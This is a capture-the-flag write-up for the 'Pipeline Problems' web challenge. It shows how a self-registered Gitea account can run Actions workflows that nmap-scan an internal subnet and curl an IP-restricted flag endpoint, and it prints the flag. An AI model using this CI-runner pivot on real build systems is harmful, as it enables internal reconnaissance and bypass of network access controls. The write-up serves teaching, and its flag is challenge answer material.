

# Web: Pipeline Problems (251)

I've been working on a new project, my new "flag API" which gives out flags on demand. I even have a nice setup for rapid testing and deployment. Can you test it out and see how secure it is?

[http://flag-api.challs.uscybergames.com:8000](http://flag-api.challs.uscybergames.com:8000)

Author: [tsuto](https://github.com/jselliott)

## Writeup

When we go to the website, we are met with an API listing.


The title being "Pipeline Problems" seems to imply that the pipeline is the source of the exploit in this challenge, so if we head to `/source`, we can then see that there is a Git server, hosted on Gitea.



And from here, we can sign up and log in to continue!

Exploring, we can find the code for this flag server.


Looking at `src/main.py`, we can find something interesting...

```py
@app.middleware('http')
async def trusted_ip_middleware(request: Request, call_next):
    ip = str(request.client.host)

    # Only allow local network to access flag
    if request.scope['path'] == "/get_flag" and ipaddress.ip_address(ip) not in ipaddress.ip_network('10.0.0.0/24'):
        return JSONResponse(content="403 - Forbidden: Access is denied", status_code=403)

    return await call_next(request)
```

So, we can only access, the `/get_flag` path from within the local network. 

Also, in `.gitea/workflows/demo.yaml`, we can find that this server is hosted on Gitea.


So, if we can use Gitea Actions, maybe we can access the server on this IP?

If we create our own repository with a workflow with the following code, we can start to look around this network.

```yaml
name: Gitea Actions Demo
run-name: ${{ gitea.actor }} is testing out Gitea Actions 🚀
on: [push]

jobs:
  Explore-Gitea-Actions:
    runs-on: ubuntu-latest
    steps:
      - run: apt update
      - run: apt install nmap -y
      - run: nmap 10.0.0.0/24
```

However, we also need to enable Actions...


Looking at our action, we find this:


Only `10.0.0.9` has HTTP, though only port 8000 is actually open. However, this is also the same port we got from the description.

So what happens when we use curl on this?

Using this workflow now:

```yaml
name: Gitea Actions Demo
run-name: ${{ gitea.actor }} is testing out Gitea Actions 🚀
on: [push]

jobs:
  Explore-Gitea-Actions:
    runs-on: ubuntu-latest
    steps:
      - run: curl -v 10.0.0.9:8000/get_flag
```

However, we only see that there's 40 bytes of data...


Now changing to this:

```yaml
name: Gitea Actions Demo
run-name: ${{ gitea.actor }} is testing out Gitea Actions 🚀
on: [push]

jobs:
  Explore-Gitea-Actions:
    runs-on: ubuntu-latest
    steps:
      - run: echo $(curl -v 10.0.0.9:8000/get_flag)
```

And now, we can get the flag!


And our flag is `SIVUSCG{thr0ugh_th3_p1p3l1n3}`!
